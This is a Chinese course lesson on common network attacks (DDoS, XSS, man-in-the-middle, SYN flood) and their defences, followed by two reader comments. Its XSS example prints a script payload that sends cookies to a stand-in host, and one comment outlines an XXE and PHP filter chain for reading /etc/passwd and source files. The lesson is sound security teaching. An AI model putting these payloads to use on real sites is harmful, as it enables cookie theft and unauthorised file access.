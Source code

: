 <p data-nodeid="3">安全无小事。2016 年 DNS 提供商 Dyn 遭遇了一次大规模的 DDoS（分布式拒绝服务攻击），有 14000 个网站域名受到影响。2020 年 7 月份，Twitter 遭大规模攻击，黑客控制了包括马斯克、盖茨、奥巴马等人的 Twitter 账号，诱导用户购买比特币，最终骗取了 11W 美金。2021 年 4 月份，还有黑客利用 Github 的 Actions（Github 的一种 CI/CD 方案），诱导用户进行 git 操作时触发恶意比特币的矿机。</p>
<p data-nodeid="4">特别是在中国这种人口基数大，互联网发达的国家，如果一个互联网公司的安全出了故障，那么影响将是巨大的。前几年，我们国家出现过一起影响较大的安全问题——某知名技术社区用户的用户名和密码被大规模泄露。前车之鉴、后车之覆，我们要吸取教训。因此，这一讲我们就以“<strong data-nodeid="54">如何抵御 SYN 拒绝攻击</strong>”为引，开启今天的学习，让你对网络安全的常见攻防手段有一个初步了解。</p>
<h3 data-nodeid="5">拒绝服务攻击（DoS)</h3>
<p data-nodeid="1166" class="te-preview-highlight"><strong data-nodeid="1179">拒绝服务攻击</strong>（<strong data-nodeid="1180">Denial-of-Service Attack，DoS</strong>）<strong data-nodeid="1181">是一种常见的攻击手段</strong>。虽然目前互联网越来越趋向于正规化，但是对于黑产还有利用 DoS 攻击黑吃黑的现象。比较常见的就是热血传奇这款游戏的私服，搭建一个私服可以获得大额非法收入，但是因为是黑产也会经常受到黑客的攻击。黑客攻击后，再发邮件到管理员邮箱索取金钱，威胁用户不尽快打款就会一直攻击。</p>


<p data-nodeid="7">在过去，黑产间的攻阀，DoS 就可以作为一种常见武器。<strong data-nodeid="78">DoS 的原理就是利用大量的流量迅速向一个网站发送出去</strong>。这种流量可能是应用层的，比如大量 HTTP 请求；也可以是传输层，比如大量的 TCP 请求。比如 2018 年 2 月 18 日，Github 就遭受了一场超大规模的 DoS 攻击，瞬间流量峰值达到了 1.35Tbps。之后，黑客还对 Google、亚马逊等网站也进行了攻击。</p>
<p data-nodeid="8">为了形成足够强大的流量，攻击者往往没有足够的经济实力购买机器，而是利用中病毒、木马的机器组织流量攻击。这些中病毒的机器，我们俗称“肉鸡”。顶级的黑客往往控制着大量的肉鸡，一声令下，肉鸡就开始疯狂向目标发送网络封包，直到打垮目标。因为肉鸡是分散在世界各地的，因此这种攻击我们也称为<strong data-nodeid="88">分布式拒绝服务攻击</strong>（<strong data-nodeid="89">Distributed Denial-of-Service Attack， DDoS</strong>）。</p>
<h4 data-nodeid="9">DDoS 的种类</h4>
<p data-nodeid="10">DDoS 的种类有很多，手段也很复杂。</p>
<ul data-nodeid="11">
<li data-nodeid="12">
<p data-nodeid="13">直接不停发送 Ping 消息的，利用底层的 ICMP 协议，称为<strong data-nodeid="96">ICMP 攻击；</strong></p>
</li>
<li data-nodeid="14">
<p data-nodeid="15">走 UPD 协议的，称为<strong data-nodeid="106">UDP 洪水</strong>（<strong data-nodeid="107">UDP Flood</strong>）；</p>
</li>
<li data-nodeid="16">
<p data-nodeid="17">不停利用 TCP 协议发送 SYN 消息的，也叫<strong data-nodeid="112">SYN 攻击；</strong></p>
</li>
<li data-nodeid="18">
<p data-nodeid="19">模拟用户行为，不停发帖、浏览帖子、浏览网页、加购物车等，称为<strong data-nodeid="122">挑战黑洞攻击</strong>（<strong data-nodeid="123">Challenge Collapsar</strong>）。</p>
</li>
</ul>
<h4 data-nodeid="20">防范措施</h4>
<p data-nodeid="21">当遇到 DDoS 攻击的时候，如果有所准备，就可以做到有备无患。比如说购买了防火墙，防火墙会根据特征识别出攻击行为，通过这样的方式将攻击行为过滤掉，让系统不会因为 DDoS 而过载造成崩溃。</p>
<p data-nodeid="22">当然如果是纯粹的流量攻击，仅仅靠防火墙是不够的。通常一些大型互联网公司会进行多活建设。一般是两地三机房，分别是日常生产环境、同城灾备环境和异地灾备环境，遇到 DDoS 可以考虑切换流量，也能起到一定作用。</p>
<p data-nodeid="23">另外 CDN 在解决 DDoS 时往往也有很好的效果，毕竟 CDN 是大量缓存节点，DDoS 攻击 CDN 的时候用不上力。当然，如果资金不足以购买服务器的小团队，可以自己实现软件防火墙。其实就是设计一台吞吐量极高的代理服务器，作为反向代理挡在所有服务前面，如果遇到 DDoS，代理服务器可以识别出一些特征并丢弃一些流量。</p>
<p data-nodeid="24">在遇到攻击的时候，对服务适当降级也是有必要的，甚至可以牺牲一部分用户保全另一部分用户的正常使用。防火墙是基于特征识别，本身也会有一定的误杀现象，在被攻击的时候，可以人为降低判定攻击行为的门槛。通过允许防火墙造成一部分的误伤来识别出更多的攻击流量。</p>
<h3 data-nodeid="25">跨站脚本攻击（XSS）</h3>
<p data-nodeid="26">接下来我们讨论另一种攻击——<strong data-nodeid="135">跨站脚本攻击</strong>。</p>
<p data-nodeid="27">2021 年 2 月印度的一名测试工程师在苹果 iCloud 官网中发现了一个跨站脚本攻击漏洞，并向苹果公司提交了具体的漏洞说明和触发的操作步骤。事后，苹果公司给这名印度人发放了 5000 美金的奖金。</p>
<p data-nodeid="28"><strong data-nodeid="141">跨站脚本（Cross Site Scripting），顾名思义，就是利用漏洞将脚本注入网页中</strong>。比如提交个人信息的输入框，如果在服务端没有处理好就有可能触发跨站脚本。</p>
<p data-nodeid="29">假设有一个输入个人签名的多行文本输入框，正常用户会输入几句有趣的话，但是黑客可能会尝试输入：</p>
<pre class="lang-java" data-nodeid="30"><code data-language="java">&lt;script&gt;document.createElement('img').src="https://some.site.com?cookie=document.cookie"&lt;/script&gt;
</code></pre>
<p data-nodeid="31">如果这段话被显示到用户的个人主页，那么访问这个用户空间的其他用户就会被攻击，进而被黑客拿走 Cookie 中的关键信息。</p>
<p data-nodeid="32">XSS 攻击模式很简单，就是想办法向网站的页面上注入脚本。总的来说，输入框是一个重灾区。目前随着前端技术的发展，使用前端框架，比如 React 或 Vue 开发的页面已经杜绝了被 XSS 的可能。但是有时候如果工作出现某些疏漏，还是会导致 XSS 的发生。所以正确的做法是上线前拜托安全部门的同学协助进行一些针对 XSS 漏洞的扫描。</p>
<h3 data-nodeid="33">中间人攻击</h3>
<p data-nodeid="34">接下来我们聊聊<strong data-nodeid="151">中间人攻击</strong>。</p>
<p data-nodeid="35">我们国家目前在打击网络电信诈骗案中，就有这样一种形式。一些不法分子利用伪基站，比如找一个人多的地方，用自己的伪基站设备伪装成基站，向用户提供网络。一些离不法分子较近的人，手机可能会连接上伪基站。连接上后，不法分子的伪基站就成了你上网的代理，可以进行很多非法操作。因此，从这个角度看，中间人黑进你附近的网络，成为你上网的“代理”，并不是非常难的一件事情。不懂技术的犯罪分子，通过购买伪基站设备，就可以充当中间人。</p>
<p data-nodeid="36">在遇到中间人攻击时，互联网的信用体系、操作系统、浏览器等就会帮你把好最后一关。比如你访问淘宝购物，中间人向你投放假网页。浏览器就会去验证这个假网页的证书，是不是淘宝的证书。去年 Github 在国内疑似被中间人攻击的案例中，国内很多用户看到的现象是浏览器提示用户浏览的网站不安全。这种情况就是浏览器在校对证书的时候发现了疑点。如果你上网遇到这种情况应该选择立即关闭这个网页，不进行后续的操作，防止被骗。</p>
<h3 data-nodeid="37">总结</h3>
<p data-nodeid="38">生活在当今时代，作为个人，网络安全是一件大事。你的购票信息、出行记录、账号密码、位置信息等，都需要你有防范意识，防止被不法分子拿走。在为公司工作的时候，要保管好自己的账号。特别是你工作用的计算机，要远离非正规渠道获得的软件。你的工作计算机一旦中了木马，成了肉鸡，那不法分子完全可以用你的工作计算机作为跳板，登录公司服务器。</p>
<p data-nodeid="39">另一方面，作为公司和团队，也要有较强的安全意识。当然，安全领域有自己的专业知识和人才。在互联网产品初期，往往承担不起昂贵的防火墙和雇佣安全专家的费用，这个时候需要开发者主动去学习安全知识，尽可能提升被攻破的成本。当业务发展到一定程度后，就需要马上雇佣安全专家，以及购买包括防火墙在内的网络安全设备。</p>
<p data-nodeid="40">好的，那么通过这一讲的学习，你现在可以尝试来回答：如何抵御 SYN 拒绝攻击？</p>
<p data-nodeid="41">【<strong data-nodeid="163">解析</strong>】SYN 攻击是 DDoS 攻击的一种形式。这种形式攻击者伪装成终端不停地向服务器发起 SYN 请求。通常攻击者的肉鸡，发送了 SYN 之后，不等给服务端 ACK，就下线了。 这样攻击者不断发送 SYN ，然后下线，而服务端会等待一段时间（通常会在 3s 以上），等待 ACK。这样就导致了大量的连接对象在服务端被积累。</p>
<p data-nodeid="42">针对这个特点可以实现一个 TCP 代理（防火墙），发现有发送 SYN 但是不给 ACK 的行为就对目标 IP 地址禁用一段时间。这个策略平时可以配置成开关，等到被攻击的时候打开。另一方面，可以适当提升连接数支持。</p>
<h3 data-nodeid="43">思考题</h3>
<p data-nodeid="44">最后给你出一道需要查资料的思考题目：哪些情况下你服务器的 /etc/passwd 文件会被黑客拿走？</p>
<p data-nodeid="45">这一讲就到这里，发现求知的乐趣，我是林䭽。感谢你学习本次课程，下一讲是《模块五思考题解答》，希望你自己完成题目后再来看答案和分析。再见！</p>

---

### 精选评论

##### *斌：
> burpsuite抓包，xxe获取etc/passwod文件，构造payload,用php伪协议获取base64-encode/resource=admin.php,用base64进行解码，查看admin.php的源码,密码是经过md5加密的，使用在线的SOMD5解密后得到密码

##### **春：
> 1，root密码泄漏2，给passwd文件授于了不正当的读权限

